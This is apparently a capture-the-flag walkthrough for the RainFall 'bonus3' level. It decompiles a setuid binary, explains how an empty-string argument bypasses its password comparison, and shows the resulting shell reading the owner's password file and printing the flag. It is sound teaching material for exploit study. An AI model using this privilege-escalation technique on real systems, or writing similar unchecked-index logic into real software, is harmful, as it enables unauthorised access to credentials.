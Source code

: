 # Bonus3 Walkthrough

## Who am I?

```bash
bonus3@RainFall:~$ id
uid=2013(bonus3) gid=2013(bonus3) groups=2013(bonus3),100(users)
```

## Where am I?

```bash
bonus3@RainFall:~$ ls -l
total 8
-rwsr-s---+ 1 end users 5595 Mar  6  2016 bonus3
# note: the `s` bits indicate setuid/setgid, the binary runs with the owner's privileges (here `end`) when executed by another user (here `bonus3`).
```

---

## Discovery, behavior test

```bash
bonus3@RainFall:~$ ./bonus3 
bonus3@RainFall:~$ ./bonus3 test

bonus3@RainFall:~$
```

**Observation**: The program requires one argument but produces no visible output in normal execution.

---

## Function analysis

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

int main(int argc, char **argv)
{
    char buffer1[66];
    char buffer2[66];
    FILE *file;
    int index;
    
    file = fopen("/home/user/end/.pass", "r");
    
    memset(buffer1, 0, 66);
    
    if (file == NULL || argc != 2) {
        return -1;
    }
    
    fread(buffer1, 1, 66, file);
    buffer1[65] = '\0';
    
    index = atoi(argv[1]);
    buffer1[index] = '\0';
    
    fread(buffer2, 1, 65, file);
    
    fclose(file);
    
    if (strcmp(buffer1, argv[1]) == 0) {
        execl("/bin/sh", "sh", NULL);
    }
    else {
        puts(buffer2);
    }
    
    return 0;
}
```

### Vulnerability Analysis

* **File reading**:
  * Opens `/home/user/end/.pass` and reads its contents into `buffer1` (66 bytes) and `buffer2` (65 bytes)
  * We don't have read permissions on this file, but the binary runs with `end` privileges

* **Arbitrary null byte write**:
  * `index = atoi(argv[1])`: Converts the argument to an integer
  * `buffer1[index] = '\0'`: **CRITICAL** - Writes a null byte at the specified index without any bounds checking
  * This allows us to truncate `buffer1` at any position

* **Logic flaw**:
  * `strcmp(buffer1, argv[1]) == 0`: Checks if `buffer1` equals `argv[1]` as strings
  * For this to be true, both strings must be identical
  * **Key insight**: If we pass an empty string `""`, then `atoi("")` returns `0`, which sets `buffer1[0] = '\0'`
  * This makes `buffer1` an empty string, and `strcmp("", "") == 0` succeeds!

### Exploitation Strategy

The exploit is simple:
1. Pass an empty string `""` as argument
2. `atoi("")` returns `0`
3. `buffer1[0] = '\0'` makes `buffer1` an empty string
4. `strcmp("", "") == 0` evaluates to true
5. `execl("/bin/sh", "sh", NULL)` spawns a shell with `end` privileges

---

## Execute the exploit

```bash
bonus3@RainFall:~$ ./bonus3 ""
$ id
uid=2013(bonus3) gid=2013(bonus3) euid=2014(end) egid=100(users) groups=2014(end),100(users),2013(bonus3)
$ cat /home/user/end/.pass
3321b6f81659f9a71c76616f606e4b50189cecfea611393d5d649f75e157353c
```

---

## Files in this repository

* `flag.txt`: file containing the retrieved flag
* `source/`: contains `ghidra/` (raw Ghidra decompilation) and `clean/` (cleaned C source)

---

## Conclusion

This binary contains a logic flaw where the programmer assumed that `buffer1` would contain meaningful data when compared to `argv[1]`. However, by exploiting the arbitrary null byte write vulnerability with `atoi("")` returning `0`, we can make both strings empty and bypass the comparison check. This grants us a shell with `end` user privileges, completing the Rainfall project.
